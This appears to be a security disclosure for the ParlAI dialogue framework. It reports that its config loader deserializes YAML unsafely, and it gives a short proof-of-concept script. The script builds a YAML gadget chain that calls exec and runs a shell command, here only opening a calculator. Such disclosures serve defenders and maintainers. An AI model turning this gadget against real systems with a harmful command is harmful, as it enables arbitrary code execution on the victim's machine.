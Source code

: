 # Description

ParlAI (pronounced “par-lay”) is a python framework for sharing, training and testing dialogue models, from open-domain chitchat to VQA (Visual Question Answering).
* **Vulnerability description**
    Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept
Run exploit.py
```
import os
#os.system('pip3 install parlai')
from parlai.chat_service.utils import config
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(exploit)
config.parse_configuration_file('config.yml')
```
* `pip3 install parlai`
* `python3 exploit.py`
